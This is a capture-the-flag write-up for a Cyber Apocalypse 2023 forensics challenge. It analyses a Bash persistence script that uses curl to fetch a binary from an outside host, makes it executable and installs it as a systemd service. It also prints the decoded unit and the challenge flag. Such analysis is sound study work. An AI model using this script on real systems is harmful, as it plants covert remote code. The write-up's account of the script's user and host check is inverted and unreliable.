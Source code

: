 ```yaml
---
layout: default
title: Extraterrestrial Persistence
---
```


# [Cyber Apocalypse 2023](index.md) - Forensics - Extraterrestrial Persistence

> There is a rumor that aliens have developed a persistence mechanism that is impossible to detect. After investigating her recently compromised Linux server, Pandora found a possible sample of this mechanism. Can you analyze it and find out how they install their persistence?

We're provided with a zip file, containing a single `.sh` file - a Linux/Bash shell script.

The script is quite short.

```sh
n=`whoami`
h=`hostname`
path='/usr/local/bin/service'
if [[ "$n" != "pandora" && "$h" != "linux_HQ" ]]; then exit; fi

curl https://files.pypi-install.com/packeges/service -o $path

chmod +x $path

echo -e "W1VuaXRdCkRlc2NyaXB0aW9uPUhUQnt0aDNzM180bDEzblNfNHIzX3MwMDAwMF9iNHMxY30KQWZ0ZXI9bmV0d29yay50YXJnZXQgbmV0d29yay1vbmxpbmUudGFyZ2V0CgpbU2VydmljZV0KVHlwZT1vbmVzaG90ClJlbWFpbkFmdGVyRXhpdD15ZXMKCkV4ZWNTdGFydD0vdXNyL2xvY2FsL2Jpbi9zZXJ2aWNlCkV4ZWNTdG9wPS91c3IvbG9jYWwvYmluL3NlcnZpY2UKCltJbnN0YWxsXQpXYW50ZWRCeT1tdWx0aS11c2VyLnRhcmdldA=="|base64 --decode > /usr/lib/systemd/system/service.service

systemctl enable service.service
```
There is a big blob of _something_ that's clearly base64 encoded.
It looks like this script takes whatever is encoded in that blob and turns it into a service on the Linux host, and then starts that service.
This script also has some safeties - it looks like it will exit before doing anything if the user running it has the username `pandora`, or if the system it's running on is named `Linux_HQ`.

Also, as a bonus, the url `https://files.pypi-install.com/packeges/service` takes us to a youtube video of Rick Astley's Never Gonna Give You Up. Nice.

Anyway, the base64 encoded blob is likely what we're after.

```
W1VuaXRdCkRlc2NyaXB0aW9uPUhUQnt0aDNzM180bDEzblNfNHIzX3MwMDAwMF9iNHMxY30KQWZ0ZXI9bmV0d29yay50YXJnZXQgbmV0d29yay1vbmxpbmUudGFyZ2V0CgpbU2VydmljZV0KVHlwZT1vbmVzaG90ClJlbWFpbkFmdGVyRXhpdD15ZXMKCkV4ZWNTdGFydD0vdXNyL2xvY2FsL2Jpbi9zZXJ2aWNlCkV4ZWNTdG9wPS91c3IvbG9jYWwvYmluL3NlcnZpY2UKCltJbnN0YWxsXQpXYW50ZWRCeT1tdWx0aS11c2VyLnRhcmdldA==
```
I had this file open in VSCode anyway, so I just used one of the many base64 extensions to decode it - but you could easily use [CyberChef](http://https://gchq.github.io/CyberChef/), or the `base64` linux command to do this.

```sh
[Unit]
Description=HTB{th3s3_4l13nS_4r3_s00000_b4s1c}
After=network.target network-online.target

[Service]
Type=oneshot
RemainAfterExit=yes

ExecStart=/usr/local/bin/service
ExecStop=/usr/local/bin/service

[Install]
WantedBy=multi-user.target
```

Yup, it's a Linux service file, and our flag is in the "Description" field at the top.

```
HTB{th3s3_4l13nS_4r3_s00000_b4s1c}
```